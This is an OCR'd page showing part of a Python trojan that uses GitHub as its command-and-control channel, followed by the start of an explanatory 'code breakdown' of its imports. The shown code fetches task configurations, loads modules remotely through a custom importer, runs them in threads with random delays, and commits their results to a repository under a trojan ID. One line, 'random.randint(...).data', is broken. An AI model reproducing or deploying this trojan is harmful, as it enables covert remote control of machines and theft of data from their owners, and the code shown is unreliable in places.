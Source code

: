 ```python

    for tasks in configuration:
        if tasks["module"] not in sys.modules:
            exec(f"import {tasks['module']}")

    return configuration

def store_module_result(data):
    gh, repo, branch = connect_to_github()
    remote_path = f"data/{trojan_id}/{random.randint(1000, 100000).data}"
    repo.create_file(remote_path, "Commit message", data.encode())
    return

def module_runner(module):
    task_queue.put(1)
    result = sys.modules[module].run()
    task_queue.get()

    store_module_result(result)
    return

# main loop
sys.meta_path = [GitImporter()]

while True:
    if task_queue.empty():
        config = get_trojan_config()
        for task in config:
            t = threading.Thread(target=module_runner, args=(task['module'],))
            t.start()
            time.sleep(random.randint(1,10))
    time.sleep(random.randint(1000, 10000))

```


# **🛠 Code Breakdown**

### **1️⃣ Import Required Modules**
```python
import json
import base64
import sys
import time
import importlib
import random
import threading
import queue

from github3 import login
```
- **`github3`** → Used for interacting with GitHub repositories.
- **`queue`** → Manages task execution order.
- **`importlib`** → Dynamically loads Python modules.
- **`base64`** → Decodes modules retrieved from GitHub.

---
